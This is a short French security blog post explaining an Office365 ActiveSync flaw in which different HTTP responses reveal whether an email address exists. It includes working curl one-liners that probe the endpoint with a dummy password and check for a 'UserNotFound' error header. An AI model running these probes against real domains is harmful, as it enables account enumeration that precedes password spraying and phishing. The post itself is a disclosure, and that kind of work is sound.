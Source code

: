 ```yaml
---
layout: post
title: Office365 / Fuite de données - Enumération d'adresses mail valides
tags: [Office365, Sécurité, Cloud]
---
```


Le service ActiveSync d'Office365 présente une faille permettant de vérifier la validité des adresses mail d'un domaine (si l'adresse mail est utilisée en tant qu'identifiant). Les retours HTTP sont en effet différents en fonction de l'existence ou non d'un identifiant spécifique.

Ce problème a initialement été signalé ici : [https://www.sec-1.com/blog/2017/office365-activesync-username-enumeration](https://www.sec-1.com/blog)

Prévenu par l'auteur fin juin 2017, Microsoft n'a pas jugé ce problème suffisamment critique pour prévoir un correctif.

L'url ActiveSync d'Office365 (https://outlook.office365.com/Microsoft-Server-ActiveSync) ne semble par ailleurs pas être protégée par un système de throttling permettant d'éviter les requêtes trop nombreuses sur une période donnée, ce qui laisse la porte ouverte à une exploitation massive.

## Exemples

**Adresse e-mail valide (prenom.nom@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom@mondomaine.fr:motdepassebidon' | base64); curl -v -X OPTIONS \
-H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" \
-H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" \
-H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync \
2>&1 | grep "X-CasErrorCode"
<pas de retour>
```

**Adresse e-mail inexistante (prenom.nom.bidon@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom.bidon@mondomaine.fr:motdepassebidon' | base64); curl -v \
-X OPTIONS -H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" \
-H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" \
-H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync \
2>&1 | grep "X-CasErrorCode"
< X-CasErrorCode: UserNotFound
```
